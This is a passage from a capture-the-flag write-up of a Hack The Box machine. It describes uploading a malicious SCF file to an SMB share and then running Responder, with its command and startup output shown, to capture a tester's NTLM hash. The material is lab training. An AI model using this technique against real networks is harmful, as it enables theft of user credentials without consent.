 ![Homepage](/assets/images/writeups/driver/4.png)

We saved the file as an `SCF` file, which had the `.scf` extension. This made the file execute whenever the user browsed the share. We uploaded the `SCF` file via the web UI, and it got submitted to the `SMB` share.

After setting up, we could use `responder` to steal the hash of a user from the testing team who decided to check out the shared folder to review the file we uploaded.

```
┌──(kali㉿kali)-[~/Documents/ctf/htb/driver]
└─$ sudo responder -w --lm -v -I tun0 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
```